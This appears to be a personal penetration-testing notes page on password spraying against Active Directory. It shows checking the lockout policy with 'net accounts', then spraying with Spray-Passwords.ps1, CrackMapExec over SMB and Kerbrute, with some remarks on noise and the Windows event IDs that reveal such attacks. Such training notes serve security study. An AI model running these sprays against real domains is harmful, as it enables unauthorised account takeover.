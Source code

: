 public:: true

- In case you already have access to a domain user, use it to grab a list of [valid](((655b6438-8ebc-46f6-a345-059d33f3ad83))) domain [users](((655b6438-2cff-4396-b2d2-a9cf0077d0bb))). This will be very helpful with the following commands.
- Before brute-forcing any domain account we always better check what the *lockout policy* looks like.
  id:: 655c7f48-d435-469c-ac3d-7bb4a56c888e
	- From a shell of a domain user we can use `net` as follow:
	  ```cmd
	  net accounts
	  ```
	  ```cmd
	  C:\Users\jeff> net accounts
	  Force user logoff how long after time expires?:       Never
	  Minimum password age (days):                          1
	  Maximum password age (days):                          42
	  Minimum password length:                              7
	  Length of password history maintained:                24
	  Lockout threshold:                                    5
	  Lockout duration (minutes):                           30
	  Lockout observation window (minutes):                 30
	  Computer role:                                        WORKSTATION
	  The command completed successfully.
	  ```
	- #+BEGIN_CAUTION
	  Too many failed logins may **block the account** for further attacks and possibly **alert system administrators**.
	  #+END_CAUTION
- Password Spray
	- [`Spray-Passwords.ps1`](https://github.com/michele-dedonno/MDD-scripts/blob/master/Spray-Passwords.ps1)
	  logseq.order-list-type:: number
	  It automatically identifies domain users and sprays a password against them according to the [lockout policy](((655c7f48-d435-469c-ac3d-7bb4a56c888e))).
		- This script uses the [`DirectoryEntry`](https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.directoryentry?view=dotnet-plat-ext-6.0) constructor to brute-force accounts
		  ```powershell
		  New-Object System.DirectoryServices.DirectoryEntry($CurrentDomain, $username, $password)
		  ```
		- Usage examples
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016'`
			- `.\Spray-Passwords.ps1 -Pass 'Summer2016,Password123' -Admins`
			- `.\Spray-Passwords.ps1 -File .\passwords.txt -Verbose`
			- `.\Spray-Passwords.ps1 -Url 'https://raw.githubusercontent.com/improsec/Get-bADpasswords/master/Accessible/PasswordLists/weak-passwords-common.txt' -Verbose`
	- [[CrackMapExec]]
	  logseq.order-list-type:: number
		- Iterate through a list of users and try to authenticate against a specified SMB server using a fixed password.
		  ```powershell
		  crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
		  ```
		- #+BEGIN_WARNING
		  Brute-forcing accounts via the SMB protocol have some drawbacks.
		  #+END_WARNING
			- For every authentication attempt a full SMB connection has to be set up and then terminated.
			  logseq.order-list-type:: number
			- It is very noisy due to the generated network traffic.
			  logseq.order-list-type:: number
			- It is also quite slow in comparison to other techniques.
			  logseq.order-list-type:: number
	- [[Kerbrute]]
	  logseq.order-list-type:: number
	  id:: 6564d528-89dd-4b10-95af-7f4c863afa06
		- #+BEGIN_NOTE
		  The main advantage is that it **only uses two UDP frames** to determine whether the password is valid as it only sends an [AS_REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) and examines the response, making it the faster online brute-force technique.
		  
		  It's also *kinda stealthier* than other methods since **pre-authentication failures do not trigger** "*An account failed to log on*" (event [4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4625)). However, the [KDC](((655a4269-4fa1-4988-b577-ad77f90064c0))) will log every failed pre-authentication attempt (event [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768)) by increasing the *badpwdcount* attribute for any incorrect `PA-ENC-TIMESTAMP` attempts.
		  
		  A lot of 4768 events for different users may **point to a user enumeration attack** attempt.
		  #+END_NOTE
		- Iterate through a list of users and file [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38)))s to the domain controller using a fixed password.
		  ```bash
		  kerbrute_linux_amd64 passwordspray -d corp.com .\usernames.txt "Nexus123!"
		  ```
		- TODO check if the following hypothesis is correct
		  background-color:: pink
			- We know that for retro-compatibility all AS-REQ are [first tried without pre-authentication](((655b158a-a666-41e0-8076-e59942a7bb20))). Wouldn't all these legit requests pollute the event logs?
			  Of course, in case of enumeration or password spray there would be many 4768 events within a small timeframe, therefore it won't be trivial to tune a detection rule for such scenarios. But how that would perform in a highly dense AD?